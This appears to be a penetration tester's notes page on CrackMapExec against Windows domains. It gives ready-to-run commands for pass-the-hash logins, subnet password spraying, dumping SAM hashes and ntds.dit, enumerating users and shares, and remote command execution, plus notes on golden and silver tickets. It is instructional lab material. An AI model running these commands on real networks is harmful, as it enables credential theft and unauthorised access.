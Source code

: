 ```yaml
---
title: CrackMapExec
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```

# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

CME offers a help menu for each protocol (i.e., `crackmapexec winrm -h`). 

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Main flags:

- -u Username `The user whose credentials we will use to authenticate`
- -p Password `User's password`
- Target (IP or FQDN) `Target host to enumerate` (in our case, the Domain Controller)
- --users `Specifies to enumerate Domain Users`
- --groups `Specifies to enumerate domain groups`
- --loggedon-users `Attempts to enumerate what users are logged on to a target, if any`


### Access the machine

```bash
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

```

### Basic enumeration

```powershell
# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions

# Obtain the password policy
crackmapexec smb $ip -u <username> -p <password> --pass-pol


# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash

# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Enumerate logged on users in other hosts of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Enumerate users of the domain
sudo crackmapexec smb  $ip -u <username> -p <password> -d <DOMAIN> --users

crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate groups of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --groups

```

### Enumerate shares

```powershell
# See shares
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --shares

# The module spider_plus will dig through each readable share on the host and list all readable files. 
sudo crackmapexec smb  $ip --local-auth -u <username> -p <password> -d <DOMAIN> -M spider_plus --share 'NameOfShare'
# CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>
```

### RCE with crackmapexec

```bash
#  If the--exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.
crackmapexec smb $ip -u Administrator -p '<password>' -x 'whoami' --exec-method smbexec
```

Sometimes we cannot get execution with smbexec method for several reasons. One of them may be  that the `--exec-method smbexec` relies on specific services to be running, such as the Remote Procedure Call (RPC) or Server Message Block (SMB). Try an alternate execution method:

```bash
crackmapexec smb $ip -u Administrator -p '<password>' -x  'whoami' --exec-method wmiexec

crackmapexec smb $ip -u Administrator -p '<password>' -x  'whoami' --exec-method atexec
```

Also, the `smbexec` method requires:
    - A writable `\C$\Windows\Temp` directory.
    - Permissions to copy files to the target machine.
 
If these conditions are not met, execution will fail.


## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.









